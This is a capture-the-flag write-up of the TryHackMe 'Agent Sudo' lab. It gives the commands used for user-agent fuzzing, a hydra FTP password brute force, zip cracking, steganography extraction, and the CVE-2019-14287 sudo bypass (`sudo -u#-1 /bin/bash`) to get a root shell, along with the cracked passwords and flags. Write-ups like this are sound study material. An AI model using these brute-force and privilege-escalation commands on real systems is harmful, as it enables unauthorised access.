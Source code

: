 # Agent Sudo

I wasn't going to write this one up, but I actually used a broad variety of techniques with it which was fun and worth documenting for future reference.

1. nmap revealed that there were three ports: 21, 22 and 80
2. the website said 'send your agent codename as the user-agent to get redirected to your message' or something

    it took me slightly longer than it should have to work out this would be something in the range of A-Z - the reason being when I tried A, B, C etc in the user agent `curl` was just returning the text again (I used `curl -A "[agent string]" http://[ip address]` for reference)

    I set up burp with a [names list from seclists](https://github.com/danielmiessler/SecLists/blob/master/Usernames/Names/names.txt) but as it was free, this was taking ages.

    Instead, I explored using wfuzz for this, and it worked! well, didn't get the password, but did figure out how to use wfuzz for this sort of thing rather than the much slower intruder. It ran through all the names in under ten seconds, compared to free burp intruder which was barely halfway through the 'A's:

    `wfuzz -w names.txt -H "User-Agent: FUZZ" --hc 200 http://10.10.21.35/`

    At this point I realised that it would be letters, not names, so I nano'ed up a file with A to Z in it, ran the above using letters.txt, and found a 302 for `C`

    Curling with C was how I worked out where I had gone wrong from before, as the output was no different. I used burp instead, but I could also have used `curl -A "C" -I 10.10.21.35` to retrieve the headers with `-I`. This contained the redirect url: `agent_C_attention.php`

3. On that page was the full name `chris`, and an admonishment about having a weak ftp password. `hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.21.35` produced the password `crystal`.

4. On the ftp server were three files, two images and a text file. The text file said the real image was in my directory, presumably over ssh, and that the password was in some of the files (and presumably the username for Agent J, as the message was from Agent C to J)

    I spent a bit messing about with steghide and stegcracker here, thinking I had to bruteforce the jpg password. But stegcracker is a pain to install and very, very slow. Not practical.

    For reference, stegcracker is best installed with pip. Kali by default doesnt have pip so:

    ```
    curl https://bootstrap.pypa.io/get-pip.py -o get-pip.py
    python3 get-pip.py
    pip3 install stegcracker
    ```

5. `strings` against the second image, cute-alien.png, showed it contained To_agentR.txt inside it. But it wasn't a steg image. `binwalk cute-alien.png` showed it contained a zip file, so I used `binwalk -e cute-alien.png` to produce four files, including `8702.zip`

6. `zip2john 8702.zip > 8702.john` and `john 8702.john -w /usr/share/wordlists/rockyou.txt` revealed the passphrase to the zip: `alien`. I used this with `7z x 8702.zip` to get the contents, `To_AgentR.txt`

7. To_AgentR.txt said something like "we need to send the message to agent 'QXJlYTUx' as soon as possible!". `echo QXJlYTUx | base64 -d` revealed `Area51`

8. Back to the second of the two images retrieved from ftp, `steghide extract -sf cutie.jpg` with Area51 as the passphrase revealed message.txt, containing text to the effect of "hi james your password is `hackerrules!`"

9. ssh'ing onto the machine as james, the user flag `b03d975e8c92a7c04146cfa7a5a313c7` and an image is in the home dir. I pulled down the image via `scp`, then used `python3 -m http.server` to serve the image so I could view it on my host (I was using kali as an attacker machine, but only over ssh). I downloaded the image, and did a google reverse image search to get the 'name' of the image, specifically `roswell alien autopsy`.

10. sudo -l gave me something I haven't seen before: `(ALL, !root) /bin/bash`. I can use bash with sudo, but not as root. E.g. `sudo -u chris /bin/bash`, which switched me to a chris shell.

    I was a bit stuck at this point. The next step required finding a CVE, but that required finding a flaw. Given the sudo -l above, I knew it was something to do with that, especially given the room name. Ultimately the key was to search on the specific string, picking up a particularly nasty vulnerability from last year.

11. `CVE-2019-14287` targets versions of sudo up to 1.8.27. The version on the machine was (via `sudo -V`): `1.8.21p2`. With this, a simple `sudo -u#-1 /bin/bash` got me a root shell.

```
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine.

Your flag is
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
```